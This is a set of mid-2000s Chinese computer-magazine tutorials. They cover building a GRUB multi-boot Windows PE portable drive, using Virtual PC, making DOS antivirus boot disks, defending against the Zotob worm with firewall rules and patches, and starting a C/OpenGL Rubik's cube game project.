移动硬盘的超大容量相对于闪存盘来说，启动Windows PE可以集成更多工具，使用起来更具优势，有了闪存盘的制作经验，移动硬盘制作起来也比较容易，不过也有一些不同之处。

有些朋友的移动硬盘没有分区，这里建议最少将其分为两个分区，这样用来启动Windows PE的分区专门存放工具，而另外的分区则可以保存一些备份数据，而不会因为Windows PE分区的格式化等操作导致无法备份数据。对移动硬盘分区可以在Windows XP系统中打开“控制面板→管理工具→计算机管理”，然后通过“磁盘管理”功能对你的移动硬盘进行重新分区，具体步骤这里不再详细介绍。但要注意的是，分区后一定要激活主分区(注意此分区不能为NTFS格式)，对于一些已经分区过的朋友也要注意这一点，通常移动硬盘主分区是没有激活的，这样是不能引导系统的。激活分区的步骤也很简单，在你的移动硬盘第一分区上单击鼠标右键，选择“将磁盘分区标为活动的”即可(见图4)，已经激活的分区上会显示有“活动”二字。接下来的步骤就和前面使用闪存盘制作完全一样了，快速格式化移动硬盘主分区并复制相关文件即可。

> > 小提示
> 用闪存盘启动Windows PE成功与否比较依赖主板BIOS的支持，即使是支持闪存盘启动的电脑，也不能保证能完全正常启动Windows PE,笔者在一台AWARD芯片的SIS 645DX主板上启动成功，但在另外一台AMI芯片的INTEL 865PE主板上虽然也能启动，但中途出现蓝屏错误。另外，用闪存盘启动Windows PE，其速度通常会比光盘启动还要慢。当然，用闪存盘启动Windows PE做维护也有它的好处:升级和扩充工具软件都非常方便。

### ## 让移动硬盘多重启动

GRUB是Linux中的一个启动管理器，其功能非常强大，在2004年14期的《移花接木 让Windows启动无限精彩》一文中我们介绍过它的基本知识和应用，现在尝试将它移植到移动硬盘或者大容量闪存盘中使用，实现Windows PE和多重启动并存，获得了成功。

第一步:给移动硬盘添加XP的OSLoader
这里接着前面的步骤继续做，也就是已经在移动硬盘上做好了Windows PE启动，这时在移动硬盘根目录中已经有了“NTLDR”文件，但这个文件是Windows PE专用的，它不支持读取boot.ini文件实现引导菜单，因此需要先将“NTLDR”文件改名为“PELDR”(同样不带扩展名)，然后将Windows XP系统分区根目录中的“NTLDR”和“boot.ini”两个文件复制到移动硬盘根目录中。现在如果你用移动硬盘启动系统，会看到Windows XP的启动菜单，说明这一步制作成功了。

> > 小提示
> 如果你没有在移动硬盘上制作Windows PE启动盘，而是从这个步骤开始全新制作GRUB多重启动盘，但又不想使用快速格式化命令写入引导代码，因为这样会破坏分区中的文件，我们还有其他办法来无损数据写入引导代码，首先从http://www.newhua.com/cfan/200518/tools.rar下载一个名为“tools.rar”的压缩包，将其中的“NTBOOT.EXE”文件解压到D盘根目录，打开命令行窗口，转到D盘后运行“ntboot j:”即可(盘符J应替换为你的移动硬盘分区盘符)。

第二步:安装GRUB到移动硬盘
有些朋友可能会问，我们要安装的是GRUB，为什么第一步却让安装XP的OSLoader呢？因为GRUB有多种安装方式，一种是直接向引导扇区写入引导代码，一种是挂接到Windows XP的OSLoader上，前者制作比较麻烦，而后者则方便得多，而且灵活性强，因此这里就选择了后者。现在在移动硬盘上已经安装好了Windows XP的OSLoader，如何挂接GRUB呢？
首先，在移动硬盘根目录中建立名为“boot\grub”的目录结构，然后从http://www.newhua.com/cfan/200518/grub.rar下载GRUB程序压缩包，将解压后的文件复制到移动硬盘boot\grub目录中，并将GRUB的引导文件“grldr”复制到移动硬盘根目录。然后，我们要修改移动硬盘根目录中的boot.ini文件，使其能够自动引导GRUB，修改后的内容如下:

```
[boot loader]
timeout=0
default=C:\GRLDR
[operating systems]
C:\GRLDR="启动GRUB"
```

> > 小提示
> 这里设置了“timeout=0”，目的是让这个OSLoader能够直接引导到GRUB菜单，实现多重启动选择，而不再出现OSLoader的启动菜单。

### ## 第三步:配置GRUB启动Windows PE.

由于移动硬盘的引导代码默认指向的是NTLDR引导系统，而现在移动硬盘上的NTLDR是Windows XP系统的，不是Windows PE系统的，PE系统的引导文件NTLDR已经在前面被我们改名为PELDR，如何才能引导Windows PE呢？我们的做法是提取引导扇区代码，并修改其中的数据使其指向改名后的Windows PE引导文件PELDR。具体操作如下:
①将我们前面下载的“tools.rar”压缩包中的文件都解压到D盘根目录，其中的“MKBT.EXE”就是用来提取引导扇区代码的，运行格式为“mkbt -x -c j: D:\peloader.bin”。使用时需要打开命令行窗口，转到D盘后按照格式运行即可，注意要将其中的盘符“j:”替换为你的移动硬盘启动分区盘符(见图1)。执行完毕后，可以在D盘根目录下生成一个名为“peloader.bin”的文件。



②在命令行窗口中继续运行“nt2peldr D:\peloader.bin”，这里运行的“NT2PELDR.EXE”程序的功能实际上就是把“peloader.bin”文件中的“NTLDR”数据替换为“PELDR”，使其指向Windows PE的引导文件PELDR。当然，你也可以使用WinHex等十六进制编辑软件打开“peloader.bin”，搜索并替换其中的“NTLDR”为“PELDR”。

③把修改后的“peloader.bin”文件复制到移动硬盘根目录，然后用“记事本”打开boot\grub目录下的GRUB菜单配置文件“menu.lst”，添加如下内容(见图2):
```
title 启动Windows PE
root (hd0, 0)
run (hd0, 0)/peloader.bin
```



> > 小提示
> 有了peloader.bin文件，实际上我们也可以直接通过XP的OSLoader来启动Windows PE，方法是在boot.ini

```
title 启动效率源硬盘维修
kernel (hd0,0)/boot/grub/memdisk.gz c=80 h=4 s=36 floppy
initrd (hd0,0)/boot/xlybig.img
```

```
title 从光驱启动
scdrom --bootcd
scdrom --bootcd

title 从软盘启动
rootnoverify (fd0)
chainloader +1

title 重启电脑
reboot

title 关闭电脑
halt
```

好了，现在用你的移动硬盘启动系统，就可以看到 GRUB 的多重启动界面了，我们可以直接选择启动 Windows PE 或启动其他的系统维护工具等，当然，读者朋友们也可以根据自己的需要添加其他的磁盘镜像文件，以实现更强大的功能。

（软件 DIY）

## # 彻底玩转微软虚拟机 Virtual PC

目前，大家熟知的虚拟机有 VMWare 及 Virtual PC（以下简称 VPC）两种，我们已经在 2004 年第 21 期《巧用 VMWare 电脑分身有术》一文中介绍了 VMWare，下面就来介绍 VPC 的使用方法。

### VPC软件信息
| 项目 | 内容 |
| :--- | :--- |
| 软件版本 | 5.2 |
| 软件大小 | 13556KB |
| 软件性质 | 共享软件 |
| 适用平台 | Windows 9x/2000/XP |
| 下载地址 | http://www.skycn.com/soft/5391.html |
| SP1下载 | http://www.newhua.com/cfan/200518/vpc2004sp1update.zip |

### ## 为什么要 VPC？

与 VMWare 相比，VPC 在功能上并不占优势，但它出自微软，且自身也有一些特色功能。比如，上手简单，消耗资源少，一般简单应用借助它即可解决。
在发布 VPC 后不久，微软随后又发布了针对其的 SP1，主要更新有：提供 Virtual Disk Precompactor（虚拟磁盘预压缩工具），该工具在进行虚拟磁盘压缩之前使用，作用是把虚拟磁盘上的任何空白空间都清零；改善了 Windows XP SP2 的虚拟机在运行时速度慢的情况等。
因此，建议在安装 VPC 后就立即安装 SP1，很多朋友说在 VPC 虚拟机上安装系统很慢，在安装过 SP1 补丁后，此问题就会解决。如果还没有安装 SP1 的朋友，请先关闭所有 VPC 虚拟机，如果有保存状态的虚拟机也必须关闭，再安装 SP1。

### ## 来！创建我们的第一台虚拟机

1. 第一步:运行 VPC，打开 “Virtual PC Console” 控制台窗口（见图1）。这就是所有项目的位置。
2. 第二步:点击 “New” 按钮，进入创建虚拟机向导。点击 “Next”，这时可以看到三个选项，“Create a virtual machine”（建立一个新虚拟机），可按向导完成虚拟机的建立；“Use default settings to create a virtual machine”（使用默认设置创建虚拟机），此时直接生成一个 VMC 虚拟机配置文件，可以稍后选择 “Settings” 进行配置；“Add an existing virtual machine”（添加一个现存的虚拟机到 VPC 控制台中）。这里选择第一项，新建虚拟机。
3. 第三步:设置好虚拟机存放位置及文件名，再点击 “Next” 后，然后从 “Operating system” 处选择安装的操作系统。VPC 会根据上一步给出的 VMC 文件名猜测要建立的虚拟机系统类型，当然也可以自己手动选择。这里罗列了所有微软的操作系统。如果要安装的是 Linux 或 Unix，可以选择 Other，这并不影响虚拟机的性能。但这里需要大家注意的是，VPC 2004 的虚拟机无法安装 Macintosh 操作系统。选择好后，点击 “Next” 按钮。
4. 第四步:此步设置虚拟机内存大小，VPC 一般会根据前面选择的操作系统来设置虚拟机的内存大小，如果需要调整，可以选择 “Adjusting the RAM”（调整内存）修改内存，一般使用默认即可。
5. 第五步:现在开始设置虚拟机使用的硬盘，这里有两个选项，“An existing virtual hard disk”（指定一个已创建好的 VHD 虚拟磁盘为虚拟机的硬盘），如果你已经使用了下面介绍的 “Virtual Disk Wizard” 建立了 VHD 文件，则选择此项；“A new virtual hard disk”（创建一个新的虚拟磁盘），选择此项后，VPC 将默认创建一个 “动态增长盘”。这里选择后者，设置好虚拟磁盘的存放路径和名称，一台虚拟机就创建出来了，它将被自动添加到 VPC 控制台中。



### ## 告诉你虚拟机设置小技巧

1. 用虚拟光盘安装系统
一般虚拟机都是使用 ISO 镜像文件进行安装的，所以在虚拟机的窗口中选择 “CD → Capture ISO Image” 来加载 ISO 镜像。选择 “Floppy → Capture Floppy Disk Image”，打开 VFD 软盘镜像文件，可以使用虚拟软盘。
2. 安装 Virtual Machine Additons
在虚拟机中操作时可以发现，鼠标指针被锁定在虚拟机中而出来不了，这是因为没有安装 Virtual Machine Additons 的缘故，此时可以按右 Alt 键进行释放。
Virtual Machine Additons 是增加宿主机功能的程序，建议在安装完虚拟机操作系统后就立即选择 “Action → Install or Update Virtual Machine Additons” 进行安装，完成后，就会具有如下功能：鼠标指针可以在宿主机、虚拟机之间平滑移动，不需要按右 Alt 键；宿主机与虚拟机之间支持拖拽；宿主机与虚拟机可共用剪贴板；宿主机与虚拟机之间时间同步；宿主机与虚拟机之间文件夹共享；虚拟机系统可以任意屏幕解析度；提升虚拟机系统中磁盘性能，显卡性能。
3. 危险操作随时撤销
在 VMWare 中每个虚拟机通常只能使用一块虚拟硬盘，而在 VPC 中可以使用三块虚拟硬盘。而且在进行一些危险操作时，还可以使用 Undo Disks（撤销盘）的功能。

第一步:在 “Virtual PC Console” 控制台窗口中右键单击要使用撤销盘的虚拟机，选择 “Settings”，在设置对话框中选择 “Hard Disk 1”，然后在右侧窗口中勾选 “Differencing disk”（差分磁盘），然后点击 “Modify” 按钮，在弹出的对话框中选择一个保存撤销盘的路径和文件名，最后点击 “OK” 按钮即可。

选中需要设置的虚拟机，单击“Settings”，打开虚拟机设置界面。

第二步：在窗口左侧点击“Undo Disks”，然后在右侧勾选“Enable undo disks”项。

小提示：窗口左侧的“Shared Folder”项是用来设置宿主机与虚拟机之间的共享文件夹，如前面所说，需要安装了 Virtual Machine Additions 后才能使用该功能。

第三步：现在就可以进行一些危险操作了。操作完成后，在关闭虚拟机时，就会弹出三个选项：“Save state and save changes”（保存状态并保存改变）、“Turn off and save changes”（关机同时保存修改）及“Turn off and delete changes”（关机同时恢复原状），根据需要选择任意一项即可（见图2）。

注意：当去除“Commit changes to the virtual hard disk”（提交修改给虚拟硬盘）勾选时，再选择保存修改，则会在虚拟硬盘所在文件夹产生一个扩展名为 VUD 的文件。以后的操作均在此文件上进行操作，而不会改变主虚拟硬盘。需要恢复时，可以再勾选此项，进行相应操作即可。

小提示：我们平时使用 VPC 时需要充分利用好差分磁盘。我们一般创建“动态增长盘”或“固定大小盘”作为母盘并创建相应虚拟机。在安装完系统后，母盘就不做修改了，所以应该在 VPC 中删除该虚拟机，以免以后启动到虚拟机（在“Virtual PC Console”控制台窗口选中虚拟机，点击“Remove”按钮即可）。然后是创建基于母盘的差分磁盘，并创建相应的虚拟机。我们平时使用的最好都为差分磁盘的虚拟机，而母盘可以存放到统一目录。此外，我们可以直接复制 VHD 磁盘文件和 VMC 虚拟机文件来实现快速创建多台虚拟机系统。

## 创建虚拟磁盘

我们的虚拟机（VMC文件）都是安装在虚拟磁盘（VHD文件）上的。如果按照前面创造磁盘，是按照默认值创建的。如果要对磁盘进行高级设置，就要用“Virtual Disk Wizard”（虚拟磁盘向导）来创建了。

第一步：在“Virtual PC Console”窗口中点击菜单中的“File→Virtual Disk Wizard”，打开向导窗口，点击“Next”，这时会出现“Create a new virtual disk”（建立一个新虚拟磁盘）及“Edit an existing virtual disk”（编辑一个现存的虚拟磁盘）。这里选择第一项，新建虚拟磁盘，点击“Next”按钮。

第二步：此步要求选择“A virtual hard disk”（虚拟硬盘）及“A virtual floppy disk”（虚拟软盘），选择前者，点击“Next”，设置好文件名及保存位置。

第三步：选择虚拟磁盘的类型。VPC 的虚拟磁盘一共有四种类型（见图3）。

① Dynamically expanding（动态增长盘）：此种磁盘创建后开始 VHD 虚拟磁盘文件很小，随着虚拟机系统的安装，文件的添加，该 VHD 文件将逐步增大，但没有限制值。这种格式是微软默认推荐的类型。
② Fixed size（固定大小盘）：此种磁盘创建时将指定一个大小，创建后 VHD 文件就立即占用了指定大小的空间。由于开始时就设置了固定大小，所以如果虚拟磁盘的数据到达固定大小，将无法再写入，这个非常类似于我们现实生活中的硬盘。如果硬盘空间不充裕的朋友，建议不要使用此种磁盘。动态增长盘和固定大小盘是可以相互转换的，要进行转换时就选择前面提到的“Edit an existing virtual disk”即可。
③ Differencing（差分磁盘）：差分磁盘可以说是 VPC 的精髓所在，许多人哪怕就只冲着这一点功能才使用 VPC 的，所以 VMWare 为了保住客户，在 VMWare 5.0 中也模仿了该技术。此种磁盘创建时将指定一个母盘（母盘必须是动态增长盘或固定大小盘），创建后的差分磁盘是基于母盘的，它只保存与母盘不同的数据。例如有一台安装有 Windows XP 的虚拟机，现在想要另外一台 Windows XP SP1 和 SP2 的虚拟机，并且同时开启，组成一个工作组，怎么办？有些朋友可能立即想到直接把 Windows XP 的虚拟机的 VHD 文件复制三个，然后创建另外两台虚拟机，指定虚拟机的硬盘后分别安装 SP1 和 SP2。这确实是最简单的方法，但却浪费了很多空间。尤其是安装有 Windows XP 虚拟机，其虚拟磁盘文件可能大于 1GB。有了差分磁盘，我们可以这样做，创建两个差分磁盘，其母盘都指定为 Windows XP 的虚拟磁盘。然后同样创建另外两台虚拟机，指定虚拟机的硬盘后分别安装 SP1 和 SP2，这时那两个差分磁盘大小分别为一个 SP1 和 SP2 的大小而已，而其他相同内容都直接读取母盘中的数据，节省了很多宝贵空间。这种技术应用非常广泛，尤其是用于模拟域中多台不同角色的服务器环境。我们只需要创建一台安装有 Windows Server 的虚拟机，利用差分磁盘就可以创建出 Domain Controller、File Server、DNS Server 等多台服务器。这里需要大家注意的是，使用了差分磁盘后，母盘就不能写入任何数据了，否则很可能会导致所有基于该母盘的差分磁盘全部无法使用。
④ Linked to a hard disk（连接到物理硬盘）：此种磁盘就是把一个物理硬盘当成虚拟磁盘。不过除非特殊需要，否则不建议采用该类型的磁盘。就像 VMWare 一样，把物理硬盘当成虚拟磁盘有可能出现一些故障，并损坏到物理硬盘。而采用前面三种，把一个文件当成一个磁盘，就不会对物理硬盘造成损害。

## 整理虚拟磁盘

平日朋友、同事间经常共享安装完系统的虚拟机硬盘文件，这样可免于安装系统的麻烦。而这就决定了 VHD 文件不能过大，所以通常是对 VHD 文件进行压缩（注意，仅针对“动态增长盘”或“固定大小盘”）。

第一步：进入虚拟机，点击菜单中的“CD→Capture ISO Image”，将 C:\Program Files\Microsoft Virtual PC\Virtual Machine Additions\（根据实际情况修改）目录下的 Virtual Disk Precompactor.iso 载入光驱，虚拟机就会自动进行磁盘的预压缩。然后进行系统的适当减肥，并运行 Windows 自带的“磁盘碎片整理”整理一下虚拟机中的硬盘（注意，这里和 VMWare 有很大的区别，VMWare 的磁盘整理是专门的程序，使用 Windows 自带的“磁盘碎片整理”反而没有作用）。

第二步：退出虚拟机，回到“Virtual PC Console”窗口，选择菜单中的“File→Virtual Disk Wizard”，点击“Edit an existing virtual disk”，选择好虚拟磁盘文件后，点击“Compact it”（压缩磁盘），连续点击“Next”按钮两次，最后点击“Finish”即可。

## 让虚拟机也能轻松网上行

很多朋友在使用虚拟机时，都不会让它上网，其实只要几步，就能使其可以访问网络了。

第一步：打开 Virtual PC Console 窗口，选择需要设置网络的虚拟机，点击“Settings”按钮。

第二步：在窗口左侧点击“Networking”（网络），在窗口右侧开始设置。“Number of network adapters”（网卡数）表示要给虚拟系统安装的网卡个数。Virtual PC 允许我们为虚拟系统最多安装四块网卡。然后在下面的 Adapter X 下拉菜单中设置网络连接模式，下拉菜单中共有四项。

① Not Connected（无连接）：没有连接，无法通讯。
② Local Only 模式：当 Virtual PC 中的各台虚拟机系统均使用 Local Only 网络连接模式时，虚拟机系统之间可以连通，虚拟机系统与宿主机系统之间无法连通，虚拟机系统也无法访问 Internet。
③ Virtual Networking（物理网卡）模式：一般在列表中会显示出安装的物理网卡的型号，比如笔者的物理网卡为 Realtek RTL8139/810x Family Fast Ethernet NIC。使用时相当于一台连入物理网络的真实电脑，与其他虚拟机、宿主机，与宿主机同一局域网的电脑以及 Internet 上的电脑均可连通。
④ Shared Networking（NAT）模式：Shared Networking 是最常用的一种网络模式，此种模式只能被绑定在虚拟机系统的第一块网卡（Adapter 1）上。此时，Virtual PC 扮演一台 DHCP 服务器，它将为每台虚拟机系统从 192.168.131.0 网段动态分配 IP 地址。在虚拟机系统中需要设置为自动获取 IP 地址及 DNS 服务器。需要注意的是：宿主机系统不得使用 192.168.131.0 网段中的 IP 地址，否则将产生冲突。使用 Shared Networking 模式的虚拟机系统与外界通信时，将通过 NAT（网络地址转换），与宿主机共用同一个 IP 地址。Shared Networking 模式不支持入站端口映射，不支持虚拟机系统之间、宿主机与虚拟机系统之间任何端口的访问，仅支持从虚拟机系统中通过“\\IP 地址”格式访问宿主机系统。当宿主机系统通过 Modem 拨号连接到 Internet 时，只有使用 Shared Networking 模式，虚拟机系统才可以连接到 Internet。

第三步：根据你选择的不同，下面的设置也有些区别。
当选择“Shared Networking（NAT）”时，如果宿主机通过 ADSL 拨号连接到 Internet，需要在 ADSL 拨号连接上启用 ICS（Internet 连接共享），并且在虚拟机系统中设置为自动获取 IP 地址和 DNS 服务器，就可以使虚拟机系统上网了。如果宿主机是通过局域网中的 ICS 服务器连接到 Internet，这种情况，只要在虚拟机系统设置为自动获取 IP 地址和 DNS 服务器就可以使虚拟机系统上网了。
当选择“Virtual Networking”时，如果宿主机通过 ADSL 拨号连接到 Internet，方法同 NAT 模式，启用 ADSL 拨号连接的 ICS，在虚拟机系统中可以选择自动获取 IP 地址和 DNS 服务器也可以手动分配一个与宿主机的本地连接在同一网段的固定的 IP 地址。如果宿主机通过局域网中 ICS 服务器，此时，宿主机系统就相当于局域网中等同于宿主机的一台计算机。因此，虚拟机系统只需仿照宿主机系统上的 IP 地址进行设置，并避免与局域网中已有的计算机冲突即可。

小提示：宿主机未安装物理网卡，如何与虚拟机连通？如果宿主机上未安装物理网卡，默认情况下是无法与虚拟机连通的。我们可以借助 Windows 自带的 Loopback Adapter 来解决这个问题。安装 Loopback Adapter：单击“开始→设置→控制面板→添加硬件”，在添加硬件向导中选择“网络适配器”下的“Microsoft Loopback Adapter”。打开 Microsoft Loopback Adapter“属性”窗口，在“此连接使用下列项目”勾选“Virtual Machine Network Services”，即将此项目与 Microsoft Loopback Adapter 绑定。这样，宿主机就能和虚拟机连通了。

(Heelen Junxiu Lee)

## 保住杀毒的最后圣地——制作杀毒软件的 DOS 版

虽然大部分用户在安装杀毒软件后，会经常更新病毒库，但杀毒软件的 DOS 版却很少被人重视。要知道，当病毒把系统破坏，或是一些强力病毒只有在 DOS 下才能彻底被查杀。所以，这就需要经常制作含有最新病毒库版本的 DOS 杀毒软件。下面我们来介绍一下如何制作瑞星、KV 及毒霸的 DOS 版以及一些使用技巧。

## 瑞星杀毒软件 2005

瑞星杀毒软件 2005 版的 DOS 杀毒软件使用简单，并且支持 NTFS 文件系统分区的查杀。美中不足的是，其尺寸比较大，如果用软盘作为载体则需要九张之多。不过瑞星杀毒软件提供了制作启动杀毒闪存盘的功能，这就方便了很多朋友。

制作瑞星杀毒软件的 DOS 杀毒盘非常简单，使用软件自带的功能就可以轻松制作出 DOS 应急杀毒盘。

第一步：点击“开始”菜单，选择“瑞星杀毒软件→瑞星工具→瑞星 DOS 杀毒工具”或直接在瑞星杀毒软件主界面点击“瑞星工具”选择“瑞星 DOS 杀毒工具”，启动 DOS 杀毒盘制作程序。

第二步：瑞星 DOS 启动盘制作工具支持制作启动软盘和 USB 启动盘杀毒，分别选择“制作启动软盘”及“制作 USB 启动盘”即可。之后按提示完成操作即可。

小提示：瑞星杀毒软件 DOS 版使用了图形界面，所以在一些老显卡上会出现花屏，这时可以按一下 F10 键切换到 16 色显示解决此问题。

升级瑞星杀毒软件 DOS 版也比较简单，再次打开瑞星 DOS 启动盘制作工具重新制作即可。

## 江民杀毒软件 KV 2005

KV 2005 同样提供了全中文图形界面的 DOS 杀毒工具，并且制作也非常简单。

第一步：打开 KV2005 主程序，点击“工具”菜单，选择“制作 DOS 杀毒伴侣”启动制作程序。

第二步：在“写入目标”中选择 A: 则为制作启动杀毒软盘，如果电脑上已经插上闪存盘，则可以在“写入目标”的下拉菜单中选择闪存盘盘符。

第三步：点击“开始”按钮则开始制作 DOS 杀毒盘。虽然 KV2005 的杀毒软件软盘制作工具支持写入闪存盘，但它并不支持制作启动闪存盘。因此需要你的闪存盘已经具备启动功能。

火速链接：通过本刊 2005 年 17 期《揭秘改盘新招数 我的闪存盘大不同》一文介绍的 USBoot（下载地址：http://www.newhua.com/cfan/200517/usboot167.rar），可以制作可启动的闪存盘。

江民杀毒软件 DOS 版不能像瑞星那样通过鼠标选择指定的查杀路径，只能手工输入，在功能上稍显简单。

由于江民杀毒软件 DOS 版也采用了图形界面，因此同样在一些老显卡上会出现花屏，江民公司建议此时采用命令行方式查毒以解决问题。你可以在 DOS 下输入 KVDOS /? 来查看其提供的命令行参数。

升级江民杀毒软件 DOS 版也比较简单，直接复制硬盘上江民杀毒软件目录下的 kvm.vlb 和 kvm.vlb 文件到软盘（闪存盘）上替换原文件即完成升级。

## 金山毒霸 2005

金山毒霸 2005 中提供了两套应急杀毒系统，一套基于 DOS，另一套则基于 Linux。

基于 Linux 的应急盘：打开毒霸主程序，点击“工具”菜单，选择“创建应急盘”启动制作工具，然后按向导运行即可。

基于 DOS 的应急盘：先用 USBoot 将闪存盘修改为可引导状态，然后复制金山毒霸目录下（默认为 C:\KAV2005）的文件到闪存盘上。用闪存盘引导后，运行 KAVDX.EXE 即可开始杀毒。

## 制作 DOS 杀毒光盘

并不是所有人的电脑都支持闪存盘引导，这就需要将制作好的 DOS 杀毒软件刻为光盘，这样更方便。

第一步：从 http://www.newhua.com/cfan/200518/winme_bootimage.zip 下载 Windows Me 启动盘。

第二步：使用 WinImage（下载地址：http://www.onlinedown.net/soft/35164.htm），打开启动盘映像文件，编辑 Config.sys 文件和 Autoexec.bat 文件，要注意，使用不同软件，需要编辑的内容也不同。

### ① 瑞星 2005

Config.sys 文件：
```
device=himem.sys
device=oakcdrom.sys /D:mscd001
files=10
buffers=10
dos=high, umb
stacks=9,256
devicehigh=ramdrive.sys /E 2048
lastdrive=z
```

Autoexec.bat 文件：
```
@ECHO OFF
set EXPAND=YES
SET DIRCMD=/O:N
set LgIDrv=27 26 25 Y 24 23 W 22 21 U 20 T 19 S 18 R 17 Q 16 P 15
set LgIDrv=%LgIDrv% O 14 N 13 M 12 L 11 K 10 J 9 I 8 H 7 G 6 F 5 E 4 D 3 C
cls
call setramd.bat %LgIDrv%
set temp=C:\
set tmp=C:\
path=%RAMD%;a:\;%CDROM%\
copy command.com %RAMD%\> NUL
set comspec=%RAMD%\command.com
copy extract.exe %RAMD%\> NUL
copy readme.txt %RAMD%\> NUL
%RAMD%\extract /y /e /l %RAMD%: ebd.cab > NUL
echo The diagnostic tools were successfully loaded to drive %RAMD%.
echo.
LH %ramd%:\MSCDEX.EXE /D:mscd001 /L:X
LH X:\RAV\Mouse.com
LH X:\RAV\smartdrv.exe
X:
CD RAV
RAVDOS.EXE
```

### ② KV 2005

修改上文中的 Autoexec.bat 文件最后五行为：
```
LH X:\KVDOS\Mouese.com
LH X:\KVDOS\smartdrv.exe
X:
CD KVDOS
KVDOS.EXE
```

### ③ 金山毒霸 2005

修改上文中的 Autoexec.bat 文件最后五行为：
```
LH X:\KAVDX\smartdrv.exe
X:
CD KAVDX
KAVDX.EXE
```

第三步：打开 Nero，选择创建“CD-ROM（引导）”类光盘，在“启动”标签下的“映像文件”中设置好修改的映像文件。

第四步：点击“新建”，然后根据不同软件，进行不同操作：

① 瑞星 2005：在光盘镜像中建立名为 RAV 的文件夹，然后复制硬盘上的瑞星目录（默认为 C:\Program Files\Rising\RAV）下所有文件到该文件夹下。

② KV 2005：制作江民 DOS 杀毒启动光盘也比较简单，和瑞星杀毒光盘制作过程类似。在光盘镜像中建立一个名为 KVDOS 的文件夹，然后复制硬盘上的 KV2005 目录（默认为 C:\Program Files\KV2005）下所有文件到该文件夹下。

③ 金山毒霸 2005：在光盘镜像中建立一个名为 KAVDX 的文件夹，然后复制硬盘上的金山毒霸目录（默认为 C:\KAV2005）下所有文件到该文件夹下。最后刻录该光盘即可。

(北京 李靖)

## 三招搞定 Zotob 蠕虫

最近一个利用微软 Windows 系统即插即用服务漏洞（MS05-039）进行传播的蠕虫病毒开始在互联网上肆虐。该病毒在传播过程中会引起和冲击波、振荡波相同的症状，即倒计时并重新启动计算机。其实这个病毒处理起来只需三招，用户不必过于恐慌。

### 1. 使用个人防火墙拦截病毒攻击

第一步：启动瑞星个人防火墙主程序，点击“设置”菜单，选择“IP 规则”。

第二步：在弹出的“设置瑞星个人防火墙 IP 规则”窗口中点击“增加规则”按钮。

第三步：规则名称填入“MS05-039”，协议类型选择“TCP”，执行动作为“禁止”，对方地址和本地地址均设置为“任意地址”，对方端口选择“任意端口”，本地端口选择“端口列表”并在其下面输入“139,445”，将下面的“气泡通知”和“日志记录”两项选中，点击“保存”。

设置好规则后我们就可以登录微软的网站去下载补丁而不用担心计算机会自动倒计时重新启动了。

如果计算机上没有安装个人防火墙软件，还可以采用比较另类的一招，就是暂时“禁用即插即用”服务。打开“注册表编辑器”，找到 [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\PlugPlay] 项，将 Start 的键值改为 4，然后重新启动计算机。（清除该病毒后再将其值改为 2）

### 2. 打补丁

你可以启动瑞星工具中的“漏洞扫描”程序自动安装这个漏洞的补丁程序。还可以登录微软的网站 http://www.microsoft.com/china/technet/security/bulletin/MS05-039.mspx 下载并安装对应操作系统的补丁程序。建议大家访问 http://update.microsoft.com/microsoftupdate/v6/default.aspx?ln=zh-cn 安装所有的关键更新以防止利用其他漏洞进行传播和破坏的病毒。

### 3. 清除病毒

由于该病毒的变种数量较多，每一个变种生成的文件位置都不一样，因此手工清除这个病毒并不是很方便，建议大家升级杀毒软件到最新版本来对此病毒进行查杀。没有安装杀毒软件的用户还可以登录瑞星网站 http://it.rising.com.cn/service/technology/rav_Zotob.htm，下载“Zotob 蠕虫（Worm.Zotob）”病毒专杀工具对计算机进行检查。

(瑞星工程师 史瑀)## 用C语言编写三维魔方游戏

### 玩游戏

这个三维的魔方游戏界面非常简洁，只需要F1至F9来转动魔方，利用这九个基本按键能使魔方完成各种复杂的动作。此外，还能够用左右箭头旋转视角。

### 学编程

网上有不少编写魔方游戏的源代码，有C++的、有Java的、也有Visual Basic的；有三维的，也有平面的。大多采用了面向对象的方法编写，不但算法比较复杂，而且主要代码集中在魔方的旋转和判断魔方是否转出六面上。

我在这里向大家献上一个用纯C语言编写的三维魔方游戏。为什么用C语言呢？首先，自从来到这个编程世界，我学会的第一门程序设计语言，敲打的第一行程序代码都是C语言的。相信有不少人也和我一样，没办法，乡音难改嘛！其次，每种语言都有优缺点，都有适合和不适合做的事情。作为入门性程序语言，C语言是非常适合的。此外，C语言应用广泛，既可以用来编写超大型的系统软件，比如Unix、Linux操作系统，又可用于编写应用软件，比如Windows中许多应用程序。

在我这个曾经用七分半钟转出六面的魔方高手眼里，如果中心那块不算的话，一个魔方是由26个小方块组成的。当我们转动魔方时，不仅小方块的相对位置改变了，而且小方块在x、y、z轴上的旋转角度也相应地发生了变化。值得庆幸的是我能肯定，只要每个小方块在各轴上的旋转角度一致，那么魔方的六个面也就出来了。那么怎样才能判断角度都是一致的呢？很简单，只要每个小方块各颜色面的朝向一致就可以了。

整个游戏主程序就一个C主文件，共11个函数，而且都有注解。任何程序语言，不管是面向过程或面向对象的，算法、技术甚至技巧，都只是一种工具。程序设计需要的是对问题的理解能力和丰富的想象力和创造力。程序虽然简单，但完成这个程序的过程却是复杂的，中间走了不少弯路，但是当我走过许多弯路后却找到了解决问题的捷径。在此与广大的电脑爱好者分享，也希望能起到抛砖引玉、引领大家走进三维世界的作用。

下面讲解魔方游戏的C语言开发环境以及辅助开发工具的设置方法。本程序是用Dev-C++利用OpenGL图形函数库在Windows XP下完成的。Dev-C++是个非常不错的C/C++开发工具，使用GCC作为它的编译器，不但编译出来的代码质量高，而且完全免费。你可以从后文给出的链接下载到最新版本。OpenGL是一个开放的与硬件无关的3D程序接口，英文全称是“Open Graphics Library”，很多开发工具都支持它，包括Visual C++、Borland C++ Builder和本程序用到的Dev-C++。不过直接使用OpenGL并不是一个非常便捷的方法，我在编译程序的同时使用了glut辅助库包。glut是用于创建完全独立于窗口系统的OpenGL程序用的，就是说即使你不懂Windows编程，也能用glut写出Windows窗口环境下的OpenGL程序。在Dev-C++中安装glut包很方便，首先根据文末给出的链接下载glut for Dev-C++，然后点击菜单上的Tools、Package Manager，在打开的包管理器中点击Install按钮，会出现一个打开文件对话框，找到下载的glut包并打开，然后一路选择默认就可以了。

现在就可以动手编译程序啦！从文末给出的源代码地址下载压缩包并解压缩，双击其中的mf.dev文件，然后按下Ctrl+F10编译运行，是不是魔方游戏已经从你手上打造出来了呢？

